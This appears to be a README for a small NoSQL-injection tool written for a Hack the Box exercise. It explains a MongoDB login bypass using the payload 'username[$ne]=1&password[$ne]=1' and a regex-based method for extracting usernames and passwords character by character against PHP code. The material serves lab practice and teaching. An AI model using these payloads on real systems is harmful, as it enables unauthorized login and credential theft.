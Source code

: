 # enum-nosql
MongoDB noSQL injection example from "Hack the Box" for password guessing.

noSQL injection autentication bypass:
If parameter values are directly taken from autentization form as follow:
$query = array("username" => $_POST["username"], "password" => $_POST["password"]);

It's possible to use PHP's associative array processing to inject query that return always true and bypass autentication process.
username[$ne]=1&password[$ne]=1

PHP process malformed input as follow and 
$query = array("username" => array("$ne" => 1), "password" => array("$ne" => 1));

noSQL username and password enumeration:
It's possible to use also regular expressions in query and try to guess username letters one by one.
username="{found username}"&password[$regex]="^{letter from wordlist}"

If we have username for example alice we start with letter with following query
username="{found username}"&password[$regex]="^a"
querry returns true so we know that there is username who starts with letter a. If query returns false we continue with next letter from wordlist. In this way is possible to expose whole username. It's necessary to go through all wordlist even if query returns true because there could be more usernames with same username prefix (in script is possible to solve it with recursions).

after usernames are enumerate it's possible to expose also passwords with following querry
username="{found username}"&password[$regex]="^{letter from wordlist}"

Usage
enum-nosql -u {target_ip}
